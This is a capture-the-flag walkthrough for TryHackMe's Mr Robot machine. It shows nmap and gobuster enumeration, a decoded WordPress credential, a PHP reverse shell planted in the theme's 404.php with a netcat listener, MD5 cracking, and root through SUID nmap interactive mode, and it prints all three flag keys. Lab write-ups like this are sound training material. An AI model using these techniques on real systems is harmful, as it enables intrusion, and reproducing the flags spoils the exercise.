# Mr Robot CTF

> Platform: TryHackMe
>
> Created by: [ben](https://tryhackme.com/p/ben), [tryhackme](https://tryhackme.com/p/tryhackme)
>
> Difficulty: Medium

## Enumeration

First of all, we start with the **nmap**. You can just use a normal nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Mr Robot CTF]
└─$ nmap -sSVC <TARGET-IP> -T4 -Pn -n -vvv -oA mrrobotscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.28s latency).
Scanned at 2025-08-06 20:19:30 +08 for 45s
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 40:11:b4:59:d0:a0:a2:e2:44:6d:20:df:81:54:e0:e3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzjNXm37Xzd9Jbyk2erjwKH57ydg2O2WNjzi9PUs6kPh7+QHhU7nTTRC7xfJEs/madf6VRyTOf/IMUYXbP83MAfTXa1dPzNs7QobTIT/QypEnpQBvqjqLFq1gc0x+rZom62kVEhamEYxhyoWnN5SdI+Np24rgxJlCAX/w7iFWLlA9uX68Zw60VykPdAb8553WgIjPj7zszKEGRzhLfz7tbz19LKLQC3SbyA8VVHR6v2fXRsO0XY3Js8gEMXEWuKZ6UNdM1uKCT7cUj9SmCrxTEVc6/r7VOv7ic+HSJD1ZOF+2yp6HPInoqccg3Ek5LRMB3HVlKhflh0n7xrzHK/WPLlHtPaN7VrGMfNfTmeJgPhDOVCjDwM+NDXwHIMyJLBw1toyCrKjHogmD3XdQMOYp3H/5fnbxe0hDih6ImTYRbBl06jWBxcMfW4BMykQN3O94/AfExZ0AulmmrGU0uUEVljSWGPsu0eUrR5y4GfrqVce3RmAZpfdGPR/0u8vgG188=
|   256 e2:cc:0c:58:45:53:d3:fa:82:f6:1b:30:af:9b:c8:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCXwMSJ+KcLbwmVLBS1x3KV8Fqlpqmju23v4a+HDrtHUzhnuW5baAIYLQg/FT56Qpo3/C5Llz3KqNtt2dkalH7k=
|   256 83:d0:c1:f7:25:3b:a6:98:de:c8:a7:28:f0:ef:fc:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBGF21IpfYTmOKOBUf5p6pNsvZTLn/owdHcKndS7Wut9
80/tcp  open  http     syn-ack ttl 61 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http syn-ack ttl 61 Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16:3b19:87c3:42ad:6634:c1c9:d0aa:fb97
| SHA-1: ef0c:5fa5:931a:09a5:687c:a2c2:80c4:c792:07ce:f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
|_http-title: 400 Bad Request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the nmap scan results, it shows us that there are **port 80 and port 443 opened** which we can try to **enumerate more the web pages**. To enumerate the web pages, I use **GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Mr Robot CTF]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://<TARGET-IP>/0/]
/admin                (Status: 301) [Size: 235] [--> http://<TARGET-IP>/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://<TARGET-IP>/feed/atom/]
/audio                (Status: 301) [Size: 235] [--> http://<TARGET-IP>/audio/]
/blog                 (Status: 301) [Size: 234] [--> http://<TARGET-IP>/blog/]
/css                  (Status: 301) [Size: 233] [--> http://<TARGET-IP>/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://<TARGET-IP>/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://<TARGET-IP>/feed/]
/image                (Status: 301) [Size: 0] [--> http://<TARGET-IP>/image/]
/Image                (Status: 301) [Size: 0] [--> http://<TARGET-IP>/Image/]
/images               (Status: 301) [Size: 236] [--> http://<TARGET-IP>/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://<TARGET-IP>/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 232] [--> http://<TARGET-IP>/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://<TARGET-IP>/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://<TARGET-IP>/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://<TARGET-IP>/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://<TARGET-IP>/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://<TARGET-IP>/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://<TARGET-IP>/video/]
/wp-admin             (Status: 301) [Size: 238] [--> http://<TARGET-IP>/wp-admin/]
/wp-config            (Status: 200) [Size: 0]
/wp-content           (Status: 301) [Size: 240] [--> http://<TARGET-IP>/wp-content/]
/wp-cron              (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://<TARGET-IP>/wp-includes/]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2671]
/wp-mail              (Status: 500) [Size: 3064]
/wp-signup            (Status: 302) [Size: 0] [--> http://<TARGET-IP>/wp-login.php?action=register]                                                                                     
/wp-settings          (Status: 500) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

From the **GoBuster results**, in **/robots.txt** page, it shows us the **first flag** which we are able to retrieve:



<details>
<summary><b>First key</b></summary>
<b>073403c8a58a1f80d943455fb30724b9</b>
</details><br>

Then, also from **GoBuster results**, try to **view the "/license"** page. 



When **inspecting the page**, there is a **base64 string** which seems to be a **hint** here:



Try to **decode the base64**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Mr Robot CTF]
└─$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 --decode
elliot:ER28-0652
```

Looks like it is a **credentials that we may use** later.

## Exploitation

Also from the **GoBuster results**, it is shown that there is a **wordpress site** running. Try to **use the credentials to login** to the **WordPress "/wp-login"** page.



Go to the **Appearance > Editor**, **change the "404.php"** to our **reverse shell script**.



For the reverse shell script, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```
┌──(kali㉿kali)-[~/upload]
└─$ pwd
~/upload

┌──(kali㉿kali)-[~/upload]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ~/upload/phpreverseshell.php

┌──(kali㉿kali)-[~/upload]
└─$ nano phpreverseshell.php
```



Then, **copy the script** and **paste it into the "404.php"**. 

Make sure to **set netcat as listener**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Mr Robot CTF]
└─$ nc -lvnp 4444
```

Now, search for the 404.php:



Back at the terminal, it is found that there are **two users in the "/home" directory** and only the user robot have contents in it. However we are not able to view the content of the second key, but able to **view the content of the md5 password**:



Try to **crack the md5 password** using [Crackstation](https://crackstation.net/).



Now, use the user robot credentials to **SSH** to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Mr Robot CTF]
└─$ ssh robot@<TARGET-IP>
robot@10.201.1.109's password: <ROBOT-PASSWORD>
```

Now we can **read the second key**:
```
$ ls
key-2-of-3.txt  password.raw-md5

$ cat key-2-of-3.txt
```

<details>
<summary><b>Second key</b></summary>
<b>822c73956184f694993bede3eb39f959</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First we need to find **files with weird SUID permission**:
```
$ find / -perm -4000 -exec ls -ldb {} \; > /tmp/ckprm

$ cat /tmp/ckprm
```



Then, we need to find a way to **escalate our privileges to root** by using the **nmap** binary.

From [GTFObins - nmap](https://gtfobins.github.io/gtfobins/nmap/), there's a way we can escalate to root privilege by using the using the **Shell** section payloads:
```
$ whoami
robot

$ nmap --interactive

nmap> !sh

# whoami
root
```

Now, we need to **retrieve the third key** to complete this machine.



<details>
<summary><b>Third key</b></summary>
<b>04787ddef27c3dee1ee161b21670b4e4</b>
</details><br>